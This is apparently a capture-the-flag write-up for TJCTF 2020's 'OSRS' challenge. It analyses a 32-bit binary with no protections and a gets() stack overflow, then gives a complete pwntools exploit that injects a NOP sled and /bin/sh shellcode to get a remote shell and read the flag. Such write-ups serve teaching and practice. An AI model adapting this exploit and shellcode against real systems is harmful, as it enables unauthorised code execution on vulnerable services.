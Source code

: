# TJCTF 2020

## OSRS

> 50
>
> My friend keeps talking about Old School RuneScape. He says he made a [service](osrs) to tell you about trees.
>
> I don't know what any of this means but this system sure looks old! It has like zero security features enabled...
> 
> `nc p1.tjctf.org 8006`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86_ _buf_ _remote-shell_ _gets_ _shellcode_ _nop-sled_


## Summary

No mitigations, 32-bit stack overflow (`gets`), NOP sled, shellcode.

Retro.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations.  Choose your own adventure.

    
### Decompile with Ghidra

![](get_tree.png)

Line 10, `gets` vulnerability.  `local_110` is large enough for shellcode.  

Line 14, leaks a stack address.  Although the challenge server _has like zero security features enabled..._, the location of the stack may change:

```
I don't have the tree -9332 :(
I don't have the tree -9204 :(
I don't have the tree -9188 :(
I don't have the tree -9220 :(
I don't have the tree -9156 :(
```

However, the general vicinity does not change much (remotely).

`local_110` is `0x110` bytes above the return address:

```
             int               EAX:4              <RETURN>
             undefined4        Stack[-0x10]:4     local_10
             undefined1        Stack[-0x110]:1    local_110                               
```

We just need to write out `0x110` bytes, the estimated location of the return address (+4 for the next stack line), a NOP sled, some shellcode, and cross our fingers.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./osrs')
p = remote('p1.tjctf.org', 8006)
buf = 0xffffdc2b # -9173
ret = buf + 0x110

#http://shell-storm.org/shellcode/files/shellcode-851.php
shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00'

payload  = 0x110 * b'A'
payload += p32(ret + 4)
payload += 100 * b'\x90'
payload += shellcode

p.recvuntil('Enter a tree type:')
p.sendline(payload)

p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8006: Done
[*] Switching to interactive mode

I don't have the tree -9188 :(
$ cat flag.txt
tjctf{tr33_c0de_in_my_she115}
```